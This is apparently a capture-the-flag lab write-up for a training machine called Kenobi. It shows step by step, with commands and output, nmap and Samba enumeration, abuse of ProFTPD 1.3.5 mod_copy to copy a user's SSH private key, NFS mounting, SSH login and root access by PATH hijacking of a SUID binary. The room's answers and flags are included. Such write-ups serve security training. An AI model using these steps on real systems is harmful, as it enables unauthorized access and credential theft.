





# Kenobi

## Description

Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

## [Task 1] Deploy the vulnerable machine

### #1.0 - Instructions

This room will cover using accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.

### #1.0 - Make sure you're connected to our network and deploy the machine

Just deploy the machine.

### #1.0 - Scan the machine with nmap, how many ports are open?

*Hint: nmap ip -vvv*

~~~
$ nmap 10.10.139.109 -vvv
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 08:29 CEST
Initiating Ping Scan at 08:29
Scanning 10.10.139.109 [2 ports]
Completed Ping Scan at 08:29, 0.05s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 08:29
Completed Parallel DNS resolution of 1 host. at 08:29, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 08:29
Scanning 10.10.139.109 [1000 ports]
Discovered open port 80/tcp on 10.10.139.109
Discovered open port 445/tcp on 10.10.139.109
Discovered open port 139/tcp on 10.10.139.109
Discovered open port 111/tcp on 10.10.139.109
Discovered open port 21/tcp on 10.10.139.109
Discovered open port 22/tcp on 10.10.139.109
Discovered open port 2049/tcp on 10.10.139.109
Completed Connect Scan at 08:29, 3.85s elapsed (1000 total ports)
Nmap scan report for 10.10.139.109
Host is up, received syn-ack (0.064s latency).
Scanned at 2020-05-14 08:29:08 CEST for 4s
Not shown: 993 closed ports
Reason: 993 conn-refused
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
22/tcp   open  ssh          syn-ack
80/tcp   open  http         syn-ack
111/tcp  open  rpcbind      syn-ack
139/tcp  open  netbios-ssn  syn-ack
445/tcp  open  microsoft-ds syn-ack
2049/tcp open  nfs          syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.96 seconds
~~~

Nmap reveals 7 open ports.

Answer: `7`

## [Task 2] Enumerating Samba for shares

### #2.0 - Instructions

Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often refereed to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

### #2.1

**Instructions**

Using nmap we can enumerate a machine for SMB shares.

Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares!

~~~
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.139.109
~~~

SMB has two ports, 445 and 139.

* Port 139: SMB originally ran on top of NetBIOS using port 139. NetBIOS is an older transport layer that allows Windows computers to talk to each other on the same network.
* Port 445: Later versions of SMB (after Windows 2000) began to use port 445 on top of a TCP stack. Using TCP allows SMB to work over the Internet.

Using the nmap command above, how many shares have been found?

**Answer**

~~~
$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.139.109
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 08:36 CEST
Nmap scan report for 10.10.139.109
Host is up (0.046s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.139.109\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.139.109\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.139.109\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
|_smb-enum-users: ERROR: Script execution failed (use -d to debug)

Nmap done: 1 IP address (1 host up) scanned in 7.36 seconds
~~~

We have discovered 3 network shares:
* \\10.10.139.109\IPC$: 
* \\10.10.139.109\anonymous: 
* \\10.10.139.109\print$: 

Answer: `3`

### #2.2

**Instructions**

On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.

~~~
smbclient //<ip>/anonymous
~~~

Using your machine, connect to the machines network share.

Once you're connected, list the files on the share. What is the file can you see?

**Answer**

Use smbclient to connect to the `anonymous` share. When prompted for the password, leave empty and press `ENTER`.

~~~
$ smbclient //10.10.139.109/anonymous
Enter SAMBA\unknown's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep  4 12:49:09 2019
  ..                                  D        0  Wed Sep  4 12:56:07 2019
  log.txt                             N    12237  Wed Sep  4 12:49:09 2019

		9204224 blocks of size 1024. 6877112 blocks available
~~~

Answer: `log.txt`

### #2.3

**Instructions**

You can recursively download the SMB share too. Submit the username and password as nothing.

~~~
smbget -R smb://<ip>/anonymous
~~~

Open the file on the share. There is a few interesting things found.

* Information generated for Kenobi when generating an SSH key for the user
* Information about the ProFTPD server.

What port is FTP running on?

**Answer**

Let's get all files recursively from the network share:

~~~
$ smbget -R smb://10.10.139.109/anonymous
Password for [unknown] connecting to //anonymous/10.10.139.109: 
Using workgroup SAMBA, user unknown
smb://10.10.139.109/anonymous/log.txt                                                                                                                            
Downloaded 11.95kB in 4 seconds
~~~

Now, let's dump the first lines of the `log.txt` file

~~~
$ head -n 33 log.txt 
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kenobi/.ssh/id_rsa): 
Created directory '/home/kenobi/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
The key's randomart image is:
+---[RSA 2048]----+
|                 |
|           ..    |
|        . o. .   |
|       ..=o +.   |
|      . So.o++o. |
|  o ...+oo.Bo*o  |
| o o ..o.o+.@oo  |
|  . . . E .O+= . |
|     . .   oBo.  |
+----[SHA256]-----+

# This is a basic ProFTPD configuration file (rename it to 
# 'proftpd.conf' for actual use.  It establishes a single server
# and a single anonymous login.  It assumes that you have a user/group
# "nobody" and "ftp" for normal operation and anon.

ServerName			"ProFTPD Default Installation"
ServerType			standalone
DefaultServer			on

# Port 21 is the standard FTP port.
Port				21
~~~

It reveals that a SSH private key has been generated and saved to `/home/kenobi/.ssh/id_rsa`. The log file also contains a summary of the ProFTP configuration. FTP runs on port `21`.

### #2.4

**Instructions**

Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just an server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Let's use nmap to enumerate this.

~~~
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.139.109
~~~

What mount can we see?

**Answer**

~~~
$ nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.139.109
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 09:17 CEST
Nmap scan report for 10.10.139.109
Host is up (0.045s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *

Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
~~~

Answer: `/var`

## [Task 3] Gain initial access with ProFtpd

## #3.0 - Instructions

ProFtpd is a free and open-source FTP server, compatible with Unix and Windows systems. Its also been vulnerable in the past software versions.

## #3.1

**Instructions**

Lets get the version of ProFtpd. Use netcat to connect to the machine on the FTP port.

What is the version?

*Hint: nc machines_ip 21*

**Answer**

To determine the version of ProFTPd, we can eithe use `nmap`, or directly connect with `ftp` or `nc`.

* With nmap:

~~~
$ nmap -sV -p21 10.10.139.109
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-14 09:24 CEST
Nmap scan report for 10.10.139.109
Host is up (0.046s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
~~~

* With ftp:

~~~
$ ftp 10.10.139.109
Connected to 10.10.139.109 (10.10.139.109).
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.139.109]
Name (10.10.139.109:unknown): ^C
~~~

* With netcat:

~~~
$ nc 10.10.139.109 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.139.109]
^C
~~~

The version is `1.3.5`.

## #3.2

**Instructions**

We can use searchsploit to find exploits for a particular software version.

Searchsploit is basically just a command line search tool for exploit-db.com.

How many exploits are there for the ProFTPd running?

*Hint: searchsploit proftpd version*

**Answer**

Let's search for exploits matching proftpd version 1.3.5:

~~~
$ ./searchsploit proftpd 1.3.5
[i] Found (#1): /data/src/exploitdb/files_exploits.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#1): /data/src/exploitdb/files_shellcodes.csv
[i] To remove this message, please edit "/data/src/exploitdb/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                |  Path
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                     | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                           | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                     | linux/remote/36742.txt
------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
~~~

Answer: `3` exploits are found.

## #3.3

**Instructions**

You should have found an exploit from ProFtpd's [mod_copy](http://www.proftpd.org/docs/contrib/mod_copy.html) module. 

The mod_copy module implements `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

**Answer**

No answer needed here.

## #3.4

**Instructions**

We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.



We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

**Answer**

Let's connect to the FTP service and copy the SSH private key to `/var/tmp/`:

~~~
$ nc 10.10.139.109 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.139.109]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
quit
221 Goodbye.
^C
~~~

## #3.5

**Instructions**

Let's mount the /var/tmp directory to our machine

```bash
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```



We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.



What is Kenobi's user flag (/home/kenobi/user.txt)?

**Answer**

Now, let's mount the share:

```bash
$ sudo mkdir /mnt/kenobiNFS
$ sudo mount 10.10.139.109:/var /mnt/kenobiNFS
```

We are now able to list files and get the SSH private key previously copied.

```bash
$ ls -la /mnt/kenobiNFS/tmp/
total 28
drwxrwxrwt.  6 root    root    4096 May 14 11:03 .
drwxr-xr-x. 14 root    root    4096 Sep  4  2019 ..
-rw-r--r--.  1 unknown unknown 1675 May 14 11:03 id_rsa
drwx------.  3 root    root    4096 Sep  4  2019 systemd-private-2408059707bc41329243d2fc9e613f1e-systemd-timesyncd.service-a5PktM
drwx------.  3 root    root    4096 Sep  4  2019 systemd-private-6f4acd341c0b40569c92cee906c3edc9-systemd-timesyncd.service-z5o4Aw
drwx------.  3 root    root    4096 Sep  4  2019 systemd-private-e69bbb0653ce4ee3bd9ae0d93d2a5806-systemd-timesyncd.service-zObUdn
drwx------.  3 root    root    4096 May 14 10:25 systemd-private-ff0eab71cb6249d9a85a500051b7cbf4-systemd-timesyncd.service-b6MWS5
```

Now, let's connect with the key and get the flag:

~~~
$ chmod 600 id_rsa 
$ ssh -i id_rsa kenobi@10.10.139.109
The authenticity of host '10.10.139.109 (10.10.139.109)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.139.109' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ ls -l
total 8
drwxr-xr-x 2 kenobi kenobi 4096 Sep  4  2019 share
-rw-rw-r-- 1 kenobi kenobi   33 Sep  4  2019 user.txt
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
~~~

## [Task 4] Privilege Escalation with Path Variable Manipulation

### #4.0 - Instructions


Lets first understand what what SUID, SGID and Sticky Bits are.

Permission | On Files | On Directories
---|---|---
SUID Bit | User executes the file with permissions of the file owner | -
SGID Bit | User executes the file with the permission of the group owner. | File created in directory gets the same group owner.
Sticky Bit | No meaning | Users are prevented from deleting files from other users.

### #4.1

**Instructions**

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: `find / -perm -u=s -type f 2>/dev/null`

What file looks particularly out of the ordinary? 

**Answer**

Let's check files with SUID bit set:

```
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

Answer: `/usr/bin/menu`

### #4.2

**Instructions**

Run the binary, how many options appear?

**Answer**

When we run the program, we have a menu with 3 options:

~~~
kenobi@kenobi:~$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
~~~

Answer: `3`

### #4.3

**Instructions**

`strings` is a command on Linux that looks for human readable strings on a binary.



This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root shell.



We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

**Answer**

Following the instructions, we add a fake `curl` executable that we add to the `PATH` environment variable:

~~~
kenobi@kenobi:/usr/bin$ cd /tmp/
kenobi@kenobi:/tmp$ echo "/bin/sh" > curl
kenobi@kenobi:/tmp$ chmod 777 curl 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
~~~

Now, when we run the program and choose the first option, we have a shell with `root` access:

~~~
kenobi@kenobi:/tmp$ /usr/bin/menu 

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
# 
~~~


### #4.4

**Instructions**

What is the root flag (/root/root.txt)?

**Answer**

Using the program with root access, we can easily get the root flag:

~~~
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
~~~
